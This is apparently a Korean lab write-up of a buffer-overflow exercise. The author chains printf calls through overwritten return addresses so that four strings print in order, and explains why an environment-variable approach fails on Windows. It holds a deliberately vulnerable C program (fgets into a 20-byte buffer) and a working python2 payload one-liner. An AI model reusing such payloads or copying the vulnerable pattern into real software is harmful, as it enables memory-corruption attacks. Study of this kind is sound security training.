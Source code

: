 # Multi Function Call 2

### Question

- 아래와 같은 메세지 순서대로 출력 되도록 실행

```
Run Func1!
Run Func2!
Run Func3!
Run Func4!

```

```
#define MAX 49
#define BUFFER_SIZE 20
char Func1[]="Run Func1!\\n"; 
char Func2[]="Run Func2!\\n";
char Func3[]="Run Func3!\\n";
char Func4[]="Run Func4!\\n";

int main(int argc,char *argv[])
{ char buf[BUFFER_SIZE];
 printf(" What your name : ");
 fgets(buf,MAX, stdin);
 dumpcode((char*)buf-16, 128); 
 printf("\\nYour Name is %s",buf);
}

```



<br>



### Analysis

**1)**

- printf() 함수![image-32.png](../images/image-32.png)
  
- 목표 string 위치

    ![image-33.png](../images/image-33.png)
    ![image-34.png](../images/image-34.png)

    - Func1 출력 성공, printf() 함수 주소와 Func1 문자열 주소 사이에 4 bytes의 문자열을 넣어야 하는 이유?

    ![image-35.png](../images/image-35.png)

    - return address 부분을 dummy 값으로 채워주는 것

- Result![image-36.png](../images/image-36.png)

    - Func1, Func2 출력 성공

<br>

**2)**

- env
    - 원래 암묵적으로 main(int argc, char  argv, char envp) 라고 보면돼. 환경변수도 스택에 셋팅되고, 어차피 DEP, ASLR이 disable 되어있으니까 디버거나 Process Utility 통해서 너가 넣은 환경변수의 스택을 찾아. 환경변수는 위 페이로드를 모두 넣을만큼 충분히 들어가
    - 환경변수 포인터에서 너가 셋팅한 환경변수의 거리만 계산하면 주소 파악은될듯. 디버거로 항상 그 위치인지 파악해보구. 디버거를 붙여서 실행한거랑 그냥 실행한거랑은 주소가 다르니까 입력값 받을때 어태치해서 스택을 살펴보면 될듯

![image-6.png](../images/image-6.png)

- Windbg - !peb
  -  Fail
- Windows는 프로세스 초기화 과정에서  설정되는 모든 전역 변수는 힙에 들어가고, SEH를 포함, 함수 내에서 할당된 변수만 스택에 잡힘. 스택에서 환경변수 이용한 BOF 현재 단계에선 불가
- Linux는 .ctors외 힙에서 처리되는건 없고 환경변수, 프로세스 파라미터 모두 스택에 할당

<br>

**3)**

```
#include <windows.h>
#include <stdio.h>
#include "dumpcode.h"
#define MAX 72
#define BUFFER_SIZE 20
char Func1[] = "Run Func1!\\n";
char Func2[] = "Run Func2!\\n";
char Func3[] = "Run Func3!\\n";
char Func4[] = "Run Func4!\\n";
int main(int argc, char *argv[])
{
	char buf[BUFFER_SIZE];
	printf(" What your name : ");
	fgets(buf, MAX, stdin);
	dumpcode((char*)buf - 16, 128);
	printf("\\nYour Name is %s", buf);
}

```

- MAX 값을 72로 변경

![image-7.png](../images/image-7.png)

![image-8.png](../images/image-8.png)

![image-9.png](../images/image-9.png)

```
python2 -c "print 'A'*24 + '\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x30\\x31\\x40\\x00\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x3c\\x31\\x40\\x00\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x18\\x31\\x40\\x00\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x24\\x31\\x40\\x00'"| .\\multi_func_2.exe
```



<br>



### Reference

- [https://devanix.tistory.com/153](https://devanix.tistory.com/153)
